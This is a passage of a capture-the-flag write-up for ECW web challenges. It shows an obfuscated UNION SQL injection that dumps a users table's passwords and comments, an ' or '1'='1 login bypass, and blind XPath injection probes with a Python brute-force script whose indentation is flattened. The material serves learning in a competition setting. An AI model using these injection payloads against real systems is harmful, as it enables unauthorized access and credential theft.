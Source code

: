 {% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(password),5,6 fRoM users#
ECW{69d7da73beaab34d6034211c0d848848},
ECW{e0d409de9fa2e61e6635e27fb73cc5e7},
ECW{2455afd815b54a0ce60b73074c3a652c},
ECW{cdf6c1b0ce7b41872a267d66e2b2dfa0},
ECW{8361993d2541062b311e61b0ade994ee},
ECW{420c7523b0a7ba0f8f40f8e98cad3c38},
ECW{77a66a027d20c8ecce920d3c3d8fb2c8},
ECW{03e8d7e2fc14e0a8b4b978f8367e6d3b},
ECW{b55ec992616468307c6cc4154dfd37a3},
ECW{d0c7cc155840d91c17fb3c885320ce1f},
ECW{c18018cb461d3b299bb5c437454abc80}
{% endhighlight %}

Unfortunately there are a lot of flags, we can try them all.. or be a little bit smarter.
Since we can dump the content we can try to export the "comment" section

{% highlight php%}
1'  union select 1,2,3,gRoUp_cOncaT(comment,password,0x7c),5,6 fRoM users#
I love french fries and create CTFECW{77a66a027d20c8ecce920d3c3d8fb2c8}|,
{% endhighlight %}
This one looked promising, and we can validate with it.



## Web 100 - Pass Through
At first, I was looking for an SQL injection in order to bypass the login, the following payload worked:
{% highlight php%}
Username:admin
Password:' or '1'='1
Authentification validée. Le mot de passe est le flag.
{% endhighlight %}
It says the "password is the flag", damn we need to extract it with a blind injection. After a lot of tries I discovered it was an XPATH injection instead of an SQL. We will use the string-length to check the size of a string, here we know the size of the username, this will help verify our guess.
{% highlight php%}
' or '1'='1' and string-length(username)=5 and '1'='1
' or '1'='1' and string-length(username)>4 and '1'='1
' or '1'='1' and string-length(password)>40 and '1'='1 NOK
' or '1'='1' and string-length(password)>10 and '1'='1 OK
' or '1'='1' and string-length(password)>20 and '1'='1 OK
' or '1'='1' and string-length(password)>30 and '1'='1 OK
{% endhighlight %}


Now we can script this in order to extract the size of the password, since we know it's >20 and <40.
{% highlight python%}
passwdlen = 0
for i in range(20,40):
payload = {
  'nonce':'26a7ef027c271845670d1abc96014f2cfa5df865721b70d43cb51a0d93264553d1411815be8f68132ef7927e3a8eeb21a8da3b88fc0f521513babd55b10c9d29',
  'username': 'admin',
  'password': "' or '1'='1' and string-length(password)=REPLACE and '1'='1".replace('REPLACE',str(i))
}
r = requests.post(url, data=payload, cookies = {'session': session}, verify=False ).text
if not "invalide" in r:
passwdlen = i
print "Password length : "+str(i)
{% endhighlight %}
The output of this script will give the the length of the password : 37
